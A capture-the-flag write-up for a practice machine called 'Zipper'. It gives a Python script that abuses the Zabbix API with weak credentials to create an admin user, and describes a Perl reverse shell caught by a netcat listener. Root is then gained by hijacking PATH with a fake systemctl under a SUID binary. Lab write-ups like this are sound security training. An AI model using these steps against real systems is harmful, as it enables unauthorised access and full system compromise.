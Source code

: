 # Zipper
### Info:
OS: Linux<br>
IP: 10.10.10.108<br>
Difficulty :  <br>
### Enumeration:
```nmap -sC -sV -oA nmap 10.10.10.108``` <br>

gives us the results : <br>
![alt text](https://i.imgur.com/IeLn6LJ.png)
Running dirbuster on port 80 we get:
![alt text](https://i.imgur.com/rqpHarW.png) <br>
### Exploitation:
As we see `zabbix` we can create a new user with the following script:
```
#!/usr/bin/env python
from pyzabbix import ZabbixAPI
import sys
import logging

stream = logging.StreamHandler(sys.stdout)
stream.setLevel(logging.DEBUG)
log = logging.getLogger('pyzabbix')
log.addHandler(stream)
log.setLevel(logging.DEBUG)
zapi = ZabbixAPI("http://10.10.10.108/zabbix")
zapi.login("zapper", "zapper")
print ("Connected to %s" % zapi.api_version() )

zapi.do_request('user.create',
   {
  "alias": "root",
        "passwd": "root",
        "type": 3,
        "usrgrps": [
            {
                "usrgrpid": "11"
            }

]
   }

)
```
Now we can write a script and run it via monitoring tab as shown:
![alt text](https://i.imgur.com/aKvCxD5.png) <br>
We use perl script specifically because -e tab in nc script spwaned and closed the shell immediately. <br>
Listening via `nc -lvnp 1234` gave us a shell <br>
Vulnerability Exploited: reverse tcp via perl script<br>
### Privilege Escaltion:
![alt text](https://i.imgur.com/evDbKSl.png) <br>
We see an suid bit and saw the script calling systemctl, therefore we created a systemctl under /tmp whith /bin/bash
and did `export PATH=/tmp:$PATH`. Therefore running the service gave us the root. <br>
### KNOWLEDGE GAIN:
Zabbix api end point vulns <br>
Reverse tcp via perl <br>
Linux Privesc via PATH variable.
